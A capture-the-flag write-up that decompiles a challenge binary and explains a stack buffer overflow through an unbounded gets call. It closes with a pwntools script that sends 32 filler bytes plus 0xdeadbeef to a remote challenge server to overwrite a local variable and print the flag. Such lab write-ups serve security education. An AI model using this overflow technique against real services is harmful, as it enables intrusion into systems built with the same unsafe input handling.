

Opened the binary file in ghidra to find the following functions (some types and variables are renamed for better understanding):
```c

void anyaforger(void)
{
  printf("BDSEC{find_the_flag_in_the_server}");
  exit(0);
}

void vuln(void)
{
  char buff [32];
  uint secret;
  
  secret = 0x12345678;
  printf("Enter the secret word: ");
  fflush(_stdout);
  gets(buff);
  if (secret == 0xdeadbeef) {
    anyaforger();
    fflush(_stdout);
    return;
  }
  puts("Sorry, that\'s not the secret word.");
  exit(1);
}

int main(void)
{
  banner(&stack0x00000004);
  puts(
      "she is a telepath whose abilities were created in an experiment conducted by an unknown organ ization "
      );
  fflush(_stdout);
  vuln();
  return 0;
}
```

As we can see, all we have to do is somehow get `secret` to equal `0xdeadbeef` and we will get the flag. The problem is that `secret` is a local variable and we can't access it directly. However, if we look at the stack frame of the `vuln` function, we can see that `secret` is located right after `buff`:



Now if we look at `vuln`, we can see that it calls `gets` on `buff` without any bounds checking. This means that we can overflow `buff` and overwrite `secret` with `0xdeadbeef`. To do this, we can use the following python script:
```python
from pwn import *

# io = process('./beef')
io = remote('139.144.184.150', 31337)
io.recvuntil(b'Enter the secret word: ')
io.sendline(b'A'*32 + p64(0xdeadbeef))
print(io.recvall().decode())
```
